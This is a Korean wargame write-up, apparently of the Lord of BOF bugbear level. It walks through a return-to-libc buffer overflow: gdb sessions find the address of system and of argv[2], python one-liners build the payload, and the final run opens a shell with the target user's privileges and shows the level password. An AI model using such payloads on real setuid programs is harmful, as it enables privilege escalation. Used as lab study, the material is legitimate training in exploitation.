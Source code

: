 RTL을 이용하는 문제이다. system("/bin/sh"); 을 실행하도록 bof를 일으킬 것이며 "/bin/sh" 문자열은 argv[2]를 통해 전달해줄 것이다.

payload는 'A'*44 (dummy) + system 주소 + AAAA (dummy) + argv[2] 주소 이렇게 꾸며질 것이다.

gdb를 통해 system 주소와 argv[2]의 주소를 구해보자

``` gdb
(gdb) b *main+6
Breakpoint 1 at 0x8048436
(gdb) r `python -c 'print "A"*56'` /bin/sh     
Starting program: /home/darkknight/bugbea2 `python -c 'print "A"*56'` /bin/sh

Breakpoint 1, 0x8048436 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
(gdb) x/x $ebp+12
0xbffffaa4:	0xbffffae4
(gdb) x/x 0xbffffae4+8
0xbffffaec:	0xbffffc34
(gdb) x/s 0xbffffc34
0xbffffc34:	 "/bin/sh"
```
구성된 payload는 다음과 같다.
/home/darkknight/bugbea2 `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x34\xfc\xff\xbf"'` /bin/sh

``` bash2
[darkknight@localhost darkknight]$ /home/darkknight/bugbea2 `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x34\xfc\xff\xbf"'` /bin/sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@AAAA4?
sh: t: command not found
Segmentation fault (core dumped)
```

system ("t"); 가 실행되어 sh: t: command not found 가 나오는 모습을 볼 수 있다. 이를 통해 system의 인자로 넘어간 문자열의 주소가 잘못된 것을 알 수 있따.
만들어진 core를 통해 /bin/sh 즉 argv[2]의 다시 계산해서 넣어주면 될 것이다.

``` gdb
(gdb)
0xbffffc19:	 "/bin/sh"
```

core를 통해 분석한 argv[2]의 주소는 0xbffffc19이다. 이를 반영하여 payload를 구성하면
/home/darkknight/bugbea2 `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x19\xfc\xff\xbf"'` /bin/sh이다.

``` bash2
[darkknight@localhost darkknight]$ /home/darkknight/bugbea2 `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x19\xfc\xff\xbf"'` /bin/sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@AAAA?\
bash$ exit
exit
Segmentation fault (core dumped)
[darkknight@localhost darkknight]$ /home/darkknight/bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x19\xfc\xff\xbf"'` /bin/sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@AAAA?
bash$ id    
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
bash$ my-pass
euid = 513
new divide
```
